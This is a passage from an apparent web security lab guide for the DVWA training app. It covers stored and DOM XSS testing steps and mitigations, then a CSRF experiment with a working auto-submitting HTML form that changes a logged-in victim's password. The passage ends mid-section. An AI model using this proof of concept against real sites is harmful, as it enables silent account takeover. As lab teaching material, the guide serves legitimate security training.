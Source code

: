 1. DVWA → XSS (Stored) → post a comment containing the payload.
2. Visit the page as a different user (or logout/login) and observe the script execution.

### DOM XSS steps

1. Inspect client-side JS (DevTools → Sources) to find use of `innerHTML`, `document.write`, `eval`, or `location` references.
2. Construct payloads that are injected into the DOM and cause execution without server side-reflection.

### Evidence & write-up points

- For each XSS type include: URL, payload used, screenshot, Burp request/response, and explanation of how the vulnerability could be exploited (cookie theft, CSRF via injected JS, etc.).
- Mitigation: Output encoding, CSP headers, HttpOnly cookies, validating inputs server-side, and using DOM APIs that do not interpret HTML.

---

# Experiment 6 — Cross-Site Request Forgery (CSRF) (Expanded)

**Objective:** Build an auto-submitting page (PoC) and demonstrate state change when the victim is logged in.

### PoC details and creation

Save this as `tools/csrf_poc.html`:

```html
<!DOCTYPE html>
<html>
  <body onload="document.forms[0].submit()">
    <form action="http://<DVWA_IP>/dvwa/vulnerabilities/csrf/" method="POST">
      <!-- field names must match the DVWA form; inspect via Burp or DevTools -->
      <input type="hidden" name="password_new" value="pwned123" />
      <input type="hidden" name="password_conf" value="pwned123" />
    </form>
  </body>
</html>
```

### How to test

1. Log into DVWA in your browser.
2. In a _separate_ tab (do not logout), open the local file `file:///path/to/tools/csrf_poc.html` or host via `python3 -m http.server 8000` and open `http://localhost:8000/csrf_poc.html`.
3. If the password changes or the action completes without user interaction, DVWA is vulnerable to CSRF. Record before/after screenshots of the profile page showing the change.

### If the app uses CSRF tokens

